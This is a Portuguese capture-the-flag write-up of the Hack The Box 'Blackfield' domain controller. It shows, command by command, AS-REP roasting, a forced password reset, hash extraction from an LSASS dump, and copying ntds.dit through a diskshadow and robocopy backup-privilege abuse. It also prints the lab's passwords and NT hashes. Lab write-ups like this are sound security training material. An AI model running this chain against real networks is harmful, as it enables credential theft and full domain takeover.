



Resolução da máquina Blackfield
Máquina Hard (hackthebox.com)
by JavaliMZ - 23/09/2021
Introdução
Bem-vindo para mais um Writeup, desta vez da máquina Blackfield. É uma máquina Windows não muito complexa, mas bastante interessante. Em diversos passos, irei reduzir o número de usuários porque já sei quais são os importantes e os que posso eliminar, só mesmo para termos outputs mais "cleans" para o writeup. Mas normalmente nunca é bom apagar informações coletadas às cegas...
Enumeração
Como sempre, quando se enfrenta uma máquina, temos de saber por onde vamos entrar. Para isso, temos de enumerar todas as portas abertas da máquina. Iremos utilizar o clássico nmap para esta tarefa.
Nmap
sudo nmap -sS -p- -n -Pn --min-rate 5000 10.10.10.192 -oG enumeration/allPorts
#> Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
#> Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 14:15 WEST
#> Nmap scan report for 10.10.10.192
#> Host is up (0.042s latency).
#> Not shown: 65527 filtered ports
#> PORT STATE SERVICE
#> 53/tcp open domain
#> 88/tcp open kerberos-sec
#> 135/tcp open msrpc
#> 389/tcp open ldap
#> 445/tcp open microsoft-ds
#> 593/tcp open http-rpc-epmap
#> 3268/tcp open globalcatLDAP
#> 5985/tcp open wsman
#>
#> Nmap done: 1 IP address (1 host up) scanned in 26.52 seconds
nmap -p53,88,135,389,445,593,3268,5985 10.10.10.192 -Pn -sC -sV -oN enumeration/nmap-a.txt
#> # Nmap 7.91 scan initiated Thu Sep 23 14:22:40 2021 as: nmap -p53,88,135,389,445,593,3268,5985 -Pn -sC -sV -oN enumeration/nmap-a.txt -vvv 10.10.10.192
#> Nmap scan report for 10.10.10.192
#> Host is up, received user-set (0.041s latency).
#> Scanned at 2021-09-23 14:22:41 WEST for 49s
#>
#> PORT STATE SERVICE REASON VERSION
#> 53/tcp open domain syn-ack Simple DNS Plus
#> 88/tcp open kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2021-09-23 20:22:50Z)
#> 135/tcp open msrpc syn-ack Microsoft Windows RPC
#> 389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
#> 445/tcp open microsoft-ds? syn-ack
#> 593/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
#> 3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
#> 5985/tcp open http syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
#> |_http-server-header: Microsoft-HTTPAPI/2.0
#> |_http-title: Not Found
#> Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
#>
#> Host script results:
#> |_clock-skew: 7h00m02s
#> | p2p-conficker:
#> | Checking for Conficker.C or higher...
#> | Check 1 (port 48702/tcp): CLEAN (Timeout)
#> | Check 2 (port 15434/tcp): CLEAN (Timeout)
#> | Check 3 (port 55985/udp): CLEAN (Timeout)
#> | Check 4 (port 53637/udp): CLEAN (Timeout)
#> |_ 0/4 checks are positive: Host is CLEAN or ports are blocked
#> | smb2-security-mode:
#> | 2.02:
#> |_ Message signing enabled and required
#> | smb2-time:
#> | date: 2021-09-23T20:22:54
#> |_ start_date: N/A
#>
#> Read data files from: /usr/bin/../share/nmap
#> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#> # Nmap done at Thu Sep 23 14:23:30 2021 -- 1 IP address (1 host up) scanned in 50.65 seconds
Pelas portas abertas, podemos concluir que estamos perante um Domain Controller. Não vemos páginas de internet, nem nenhum programa estranho a rodar, portanto parece que esta máquina só trata de problemas que nos podemos enfrentar em Active Directory / Domain Controller. Posto isso, o primeiro ponto que quero é enumerar usuários.
SMB (anonymous)
Antes de tentar ver o que há nas partilhas, vamos tentar sempre conectar por RPC, visto que por esse protocolo é extremamente fácil enumerar todos os usuários, grupos e muito mais...
rpcclient 10.10.10.192 -U '' -N
Não me é possível conectar... Vamos então tentar entrar por samba
crackmapexec smb 10.10.10.192
#> SMB 10.10.10.192 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
Ok, já temos algumas informações. Temos o domínio (blackfield.local) e o nome da máquina (DC01). vamos adicionar essas informações para o nosso /etc/hosts, para possíveis futuras ferramentas usarem essa informação
echo -e "10.10.10.192\tblackfield.local dc01.blackfield.local" >> /etc/hosts
Com a ferramenta crackmapexec, temos opção para ver as pastas partilhadas com o parâmetro "--shares"
crackmapexec smb 10.10.10.192 --shares
#> SMB 10.10.10.192 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
#> SMB 10.10.10.192 445 DC01 [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
Parece que não está acessível, mas o erro não é o normal desta ferramenta... diz "STATUS_USER_SESSION_DELETED". Vamos tentar a mesma coisa especificandos login "null" e password "vazio"

Agora sim! Vemos duas pastas partilhadas pelo qual podemos aceder. IPC$ e profiles$. IPC$ não tem nada, e profiles$ parece muito mais "feito à unha". Vamos entrar e ver com smbclient, usando o null session
smbclient \\\\10.10.10.192\\profiles$ -U 'null' # Pede a palavra pass. É só dar Enter...
smb: \> dir
#> . D 0 Wed Jun 3 17:47:12 2020
#> .. D 0 Wed Jun 3 17:47:12 2020
#> AAlleni D 0 Wed Jun 3 17:47:11 2020
#> ABarteski D 0 Wed Jun 3 17:47:11 2020
#> ABekesz D 0 Wed Jun 3 17:47:11 2020
#> ...
#> ...
A resposta é enorme. Montes de pastas. E essas pastas soa como nomes de pessoas... Temos uns possíveis usuários. Vamos copiar isto tudo e filtrar para guardar apenas o nome da pasta para um ficheiro "users"
smbclient \\\\10.10.10.192\\profiles$ -U 'null' -N -c "dir" > contents/users
cat contents/users | awk '{print$1}' | sponge contents/users
AS-REP Roasting Attack
Agora que temos todos esses usuários, vamos tentar fazer o clássico AS-REP Roasting Attack, para tentar receber um TGT de um usuário que não precisa de requerer a pre-autenticação kerberos. Para isso, nada mais simples que o programa da impacket GetNPUsers.py
GetNPUsers.py blackfield.local/ -no-pass -usersfile contents/users | grep -v "Client not found in Kerberos database"

Temos um TGT! Esse TGT pode ser decifrado com john-the-ripper ou o hashcat.

Temos uma password do usuário support:
support:#00^BlackKnight
Vamos validar a credential com o crackmapexec
crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'
Está válido! Já ques estamos em SMB, vamos ver que ganhamos acesso a mais pastas partilhadas
crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight' --shares
smbmap -H 10.10.10.192 -u 'support' -p '#00^BlackKnight'
Vemos mais pastas. Mas não há nada de mais... Existe ainda uma pasta partilhada que não temos acesso. A pasta "forensic". É promissor... mas o que fazer agora? Não podemos avançar por SMB... Pois se não podemos avançar por SMB, podemos voltar uma passo atrás e tentar conectar-nos ao serviço RPC com estas novas credenciais, que já foram validadas pelo crackmapexec. Ainda importante a referir, as credenciais não passaram no teste de validação por winrm...

RPC
Vamos então voltar ao primeiro passo. Enumeração via RPC, mas desta vez, com as credenciais do usuário "support"
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers"
Bingo! Desta vez tenho resposta. E bem grande! Todos os usuários a nível de domínio!. Isso significa duas coisas. Significa que posso tentar um novo attack AS-RES Roasting, e significa que posso extrair todas as informações de domínio.
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]'
Todos os usuários podem ser listados com este comando... mas para limpar um pouco os usuários desnecessários para a resolução da máquina, afim de termos outputs mais "cleans", vou já eliminar todos os usuários BLACKFIELD*.
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]' | grep -v "BLACKFIELD"
#> Administrator
#> Guest
#> krbtgt
#> audit2020
#> support
#> svc_backup
#> lydericlefebvre
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c "enumdomusers" | awk '{print$1}' | grep -oP "\[.*?\]" | tr -d '[]' | grep -v "BLACKFIELD" > contents/users
AS-REP Roasting Attack
O novo ataque AS-RES Roasting naõ revela mais nada, apenas mostra outro TGT (porque a data/hora/min/seg é usado para gerar cada TGT) do mesmo usuário "support", mas confirma que todos os outros usuários existem.
GetNPUsers.py blackfield.local/ -no-pass -usersfile contents/users
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#> [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
#> [-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
#> [-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
#> [-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
#> $krb5asrep$23$support@BLACKFIELD.LOCAL:5baf13a3c031e279852b45cf1ca61281$fac4f6c28409e359a6ec955b32220d549295efce799d7491b8f4efdc0635bec21091ba87b29deb78b404242246e6e110bf33bfae560f61bd791a5f495fec9ecb6894615eaa100c40b2016e979f9545509a5892fef429008c70f6b6f335b968176c6670a94079b0f07f8033fb9c8869928e072b82c63a80c50be46bf574081162cbf2f5185abddcc2acdfa539e1b6c9bda807a045f65b191861a6fec9f169f308e4b4eb3a2766f0e1b3ea770684ead927114c05877fe80c42d6f4a8b7c7d6d3b0374bf936a69ed2311b047708be4a292cb827bf27761612d8ebfc898fab971b313eeaca493d8e2a6320965de255021e7677c6f058
#> [-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
#> [-] User lydericlefebvre doesn't have UF_DONT_REQUIRE_PREAUTH set
Bloodhound
Agora que temos acesso ao RPC, e que podemos extrair todas informações públicas a nível de domínio, podemos tratar de gerar uma base de dados para a nossa ferramenta bloodhound, que já usamos em outras máquinas.
bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192
sudo neo4j start
bloodhound &>/dev/null &
disown

Com a ajuda do BloodHound, vemos que o usuário support tem privilégio "ForceChangePassword" sobre o usuário Audit2020. Isso quer dizer que, podemos alterar a password de Audit2020 sem precisar saber a password actual dele.
Existem muitas maneiras de se fazer isso localmente, mas a partir de fora, sem RCE, apenas podemos mudar a password por RPC, e validar as novas credenciais...
rpcclient 10.10.10.192 -U 'support%#00^BlackKnight' -c 'setuserinfo2 Audit2020 23 J4v4li123!'
crackmapexec smb 10.10.10.192 -u 'Audit2020' -p 'J4v4li123!'
SMB
Conseguimos alterar a password com sucesso! O nome do usuário Audit2020 é suspeito de ter qualquer coisa a ver com uma das pastas partilhadas que vimos, a forensic! Vamos verificar se temos acesso

smbclient \\\\10.10.10.192\\forensic -U 'Audit2020%J4v4li123!'
smb: \> recurse ON
smb: \> dir
Existem muitas pastas e ficheiros! É impensável descarregar tudo para a nossa máquina. Mas para ser mais fácil percorrer e visualizar a pasta partilhada, é melhor montar esta unidade na nossa própria máquina
sudo su
cd /mnt
mkdir smb
mount -t cifs //10.10.10.192/forensic /mnt/smb -o username=Audit2020,password=J4v4li123\!,domain=blackfield.local,rw
# Atenção que a password não leva o sinal "\", mas está lá para escapar o sinal "!" (para não interpretar o "!")
cd smb
A partir de agora estamos sincronizados com a pasta de partilha. Atenção que, por mais que todos os ficheiros estão referenciados como sendo proprietário root, isto não corresponde à verdade. É mais ou menos um link, e um link no linux tem proprietário e privilégios do seu criador, não do objeto linkado.

Vemos que existe 718 ficheiros espalhados por 38 diretórios... Mas a pasta memory_analysis é muito acolhedor. E lá dentro está um ficheiro lsass.zip. Se dentro desse zip se encontra um minidump de lsass.DMP, isto está maravilhosamente fácil. Para extrair hashes de todos os usuários locais, basta utilizar a ferramenta pypykatz. O resultado do comando é longo, então podemos filtrar por "NT" e "Username", fazer um "sort" disse tudo, separar os usuários dos hashes, e dar os ingredientes todos para o crackmapexec identificar que hash é de que usuários, e validar logo isto tudo
cd memory_analysis
cp lsass.zip /home/javali/CaptureTheFlag/HackTheBox/contents
cd /home/javali/CaptureTheFlag/HackTheBox/contents
unzip lsass.zip
pypykatz lsa minidump lsass.DMP > lsass.out
cat lsass.out | grep -E "NT|Username" | sort -u
#> domainname NT AUTHORITY
#> NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
#> NT: 9658d1d1dcd9250115e2205d9f48400d
#> NT: b624dc83a27cc29da11d9bf25efea796
#> Username:
#> Username: Administrator
#> Username: dc01$
#> Username: DC01$
#> Username: svc_backup
Temos 3 hashes e 2 usuários (o DC01$ não é um usuários... é a máquina.)
echo -e "7f1e4ff8c6a8e6b6fcae2d9c0572cd62\n9658d1d1dcd9250115e2205d9f48400d\nb624dc83a27cc29da11d9bf25efea796" > tmp_hashes
echo -e "Administrator\nsvc_backup" > tmp_users
crackmapexec smb 10.10.10.192 -u tmp_users -H tmp_hashes --continue-on-success
crackmapexec winrm 10.10.10.192 -u tmp_users -H tmp_hashes --continue-on-success

Temos um único resultado e já está validado. E para além de válido, está Pwn3d! em winrm. Isso quer dizer que temos capacidade de psexec, ou evil-winrm.
svc_backup:9658d1d1dcd9250115e2205d9f48400d
PrivEsc svc_backup ==> Administrator de domínio

Logo de entrada, vemos com um whoami qual é o caminho a seguir! Este usuário é membro do grupo SeBackupPrivilege. Pelo nome é um pouco normal. Usuários deste grupo tem privilégios para copiar programas que estão em memória RAM, e tem possibilidade de fazer backups de todo o sistema. Não pode abrir tudo "à Lagardère", mas dá para bypassar isto tudo. Já que iremos ter acesso a todos os ficheiros do sistema, podemos escolher qual queremos. Poderíamos em primeira instância quer extrair o SAM e SYSTEM, mas nesta máquina, e SAM nos daria exactamente igual ao ficheiro lsass que já vimos antes, pelo que a hash do Administrator local não funcionará (nem sei bem o motivo...). Mas há um ficheiro nos Domain Controller que contem a base de dados de todos os usuários de domínio e seus hashes. Esse ficheiro é chamado de "ntds.dit". E é este o nosso alvo. Para se fazer, basta copiar o referido ficheiro, que se encontra em C:\Windows\NTDS\ntds.dit. Problemas: - O ficheiro está em uso. (não se pode fazer copia do mesmo se está em uso) - Não tenho privilégios diretos. (tenho de usar programas que me fazem ter temporáriamente privilégios Administrador)
Existe um programa chamado de robocopy, que nos permite resolver o segundo ponto, visto que tem um parametro (/b) para fazer a cópia em backup mode (Passando a ter o privilégio do grupo SeBackupPrivilege)
O primeiro ponto é mais tricky... Eu não posso copiar um arquivo em uso. Mas posso criar uma unidade que esteja ligada ao meu disco local C:\. O ficheiro em uso será sempre o do disco C:\, e o mesmo ficheiro na outra unidade não estará a ser usado (GG Windows xD).
Para se fazer:
- Criar um ficheiro com o nome privesc.txt (por exemplo)
set context persistent nowriters
add volume c: alias privesc
create
expose %privesc% z:
- Ajustar compatibilidade do ficheiro para windows
unix2dos privesc.txt
- Transferir privesc.txt para o windows. Via evil-winrm, é facílimo. Privilegie um directório sem nenhum tipo de restrições de escrita (AppLockerBypass)
cd C:\Windows\System32\spool\drivers\color
upload /home/javali/CaptureTheFlag/HackTheBox/contents/privesc.txt
- Criar uma cópia shadow da unidade C:\ com as configurações do ficheiro privesc.txt
diskshadow.exe /s .\privesc.txt
- Copiar o shadow de ntds.dit para um local acessível no C:
robocopy /b Z:\Windows\NTDS C:\Windows\System32\spool\drivers\color ntds.dit
Agora temos a tal base de dados de todo o Domian Controller. Para poder ser lido, ainda faltam umas chaves de criptografia que se encontram em HKLM\SYSTEM. Basta gravar a propria memória RAM deste ficheiro em uso para o mesmo local da cópia do ntds.dit (para depois recuperar ambos os ficherio para a nossa máquina, com o commando download do evil-winrm)
reg save HKLM\system system
download "C:/Windows/System32/spool/drivers/color/system"
download "C:/Windows/System32/spool/drivers/color/ntds.dit"
Com esse 2 ficheiros, é possível extrair todos os hashes NT dos usuário de domínio
secretsdump.py -ntds ntds.dit -system system LOCAL > users_domain_hashes
cat users_domain_hashes | grep "Administrator"
#> Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Aqui está. O hash NTLM do usuário Administrator do domínio. Validar com crackmapexec

Somos donos da máquina! E até de todas as máquina ligadas ao Domain Controller... Mas é apenas um CTF, então é só de esta máquina lol. Com isso, já podemos ver as flags